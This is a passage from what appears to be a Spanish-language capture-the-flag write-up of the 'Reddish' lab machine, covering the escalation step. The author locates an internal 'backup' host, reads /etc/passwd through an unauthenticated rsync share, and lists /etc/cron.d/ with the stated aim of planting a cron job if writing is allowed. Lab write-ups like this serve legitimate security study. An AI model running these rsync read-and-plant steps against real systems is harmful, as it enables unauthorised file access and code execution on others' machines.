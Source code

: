 # Escalada

Puedo enviar una traza ICMP para ver a que IP corresponde ```backup```

```null
bash-4.3# ping -c 1 backup
PING backup (172.20.0.2) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.037 ms

--- backup ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.037/0.037/0.037/0.000 ms
```

Dentro hay dos directorios

```null
bash-4.3# rsync rsync://172.20.0.2/
src            	src path
```

Se acontece un LFI

```null
bash-4.3# rsync rsync://172.20.0.2/src/etc/passwd passwd
bash-4.3# cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
```

En caso de tener capacidad de escritura, puedo agregar una tarea CRON al Sistema

```null
bash-4.3# rsync rsync://172.20.0.2/src/etc/cron.d/
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
```
